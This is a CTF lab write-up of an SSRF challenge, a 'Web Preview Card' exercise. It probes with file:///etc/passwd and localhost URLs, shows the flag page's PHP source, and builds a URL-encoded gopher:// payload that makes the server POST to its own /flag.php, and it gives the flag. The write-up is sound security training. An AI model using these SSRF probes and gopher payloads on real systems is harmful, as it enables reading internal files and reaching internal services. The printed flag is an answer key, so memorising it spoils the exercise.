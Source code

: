# Simple Web 0x12(Lab - Web Preview Card)
###### tags: `NTUSTWS` `CTF` `Web`
Challenge: http://h4ck3r.quest:8500/

## Background
[Web Hacking | 續章【EDU-CTF 2021】](https://youtu.be/hWC-Evt-sBc?t=6136)
[網站安全🔒 伺服器端請求偽造 SSRF 攻擊 — 「項莊舞劍，意在沛公」](https://medium.com/程式猿吃香蕉/網站安全-伺服器請求偽造-ssrf-攻擊-項莊舞劍-意在沛公-7a5524926362)

## Exploit - SSRF
When you see a preview function, then it may have SSRF problem.
1. Test it
`file:///etc/passwd` or `http://127.0.0.1`
![](https://i.imgur.com/NKbIlDT.png)

2. Analyze `flag.php`
![](https://i.imgur.com/OGo7biu.png)
    :::spoiler source code
    ```php=
    <?php
    if ($_SERVER['REMOTE_ADDR'] !== '127.0.0.1') die("Only for localhost user.");
    ?>
    <form action="/flag.php" method="post">
        Do you want the FLAG? <input type="text" name="givemeflag" value="no">
        <input type="submit">
    </form>
    <?php
    if (isset($_POST['givemeflag']) && $_POST['givemeflag'] === 'yes')
        echo "FLAG:", getenv('FLAG');
    ```
    :::
    If you want flag, you need visit `/flag.php` as localhost and send a form data with parameter `givemeflag`.
3. Construct package - <font color="FF0000">**gopher**</font>
    ```!
    POST /flag.php HTTP/1.1
    Host: 127.0.0.1
    Content-Length: 14
    Content-Type: application/x-www-form-urlencoded

    givemeflag=yes
    ```
    Transferred by [urlencode](https://www.urlencoder.org/) with `CRLF` type.
Payload: `gopher://127.0.0.1:80/_POST%20%2Fflag.php%20HTTP%2F1.1%0d%0aHost%3A%20127.0.0.1%0d%0aContent-Length%3A%2014%0d%0aContent-Type%3A%20application%2Fx-www-form-urlencoded%0d%0a%0d%0agivemeflag%3Dyes%0d%0a`

4. Then we got flag...

Flag: `FLAG{gopher://http_post}`